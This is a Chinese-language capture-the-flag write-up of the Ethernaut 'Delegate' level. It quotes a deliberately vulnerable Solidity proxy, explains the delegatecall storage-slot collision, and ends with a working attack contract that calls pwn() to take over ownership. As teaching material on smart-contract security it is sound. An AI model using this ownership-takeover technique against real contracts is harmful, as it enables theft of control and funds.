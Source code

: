 # 6. Delegate

### 原题
```
这一关的目标是申明你对你创建实例的所有权.
```
```solidity
  // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
### 分析
窃取所有权的又来咯。这个题目有点意思，这个里面的逻辑有点UUPS等代理架构的味道。
我们来分析下。Delegate合约的公开方法pwn可以修改owner，如果是直接调用Delegate.pwn()，修改的是Delegate的owner。但是要求我们修改Delegation的所有权，我们看可以利用的只有fallback()。
fallback的作用，什么时候触发，我假设大家都知道了。
我在调用Delegation上不存在的函数的时候，就可以直接执行fallback了。
再来看看里面的逻辑，执行了委托代理delegatecall，执行权交到了Delegate合约。那就意味着我可以通过代理去调用Delegate的pwn方法了。
但是怎么来修改Delegation的owner呢？delegatecall有个很大的特性，虽然调用了目标合约的方法，但是方法里修改的状态变量都会在委托方的存储槽去查找（不是按照变量名称去查找，而是依照存储槽的编号，EVM里只认编号）。
也就是说，只要代理合约和目标合约定义的状态变量顺序一致，那么委托执行的方法里面修改的状态变量都是修改的代理合约上的同样编号的存储槽。我们可以看到两个合约上的owner的定义都在第一个，也就是都是slot0的存储槽。这样委托执行的pwn方法，其实修改的是Delegation的owner。
这个有点绕吧，但是正是有这样的机制，才让我们可以使用UUPS或者透明代理架构，可以达到合约升级的目的。
不绕了，我自己也快被绕进去：），还是看看攻击代码吧
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface  IDelegation {
    function pwn() external ;
    function owner() external returns (address);
}

contract DelegationAttack {
    IDelegation delegation;

    constructor( address _delegation) {
      delegation = IDelegation(_delegation);
    }

    function attack() public {
      // 这里就是逼迫对方执行fallback函数(存在的话)，
      // 利用委托代理机制，达到攻击目的
      // “pwn()”是通过msg.data传送
      delegation.pwn();
    }

    function getOwner() public returns (address) {
       return  delegation.owner();
    }
}
```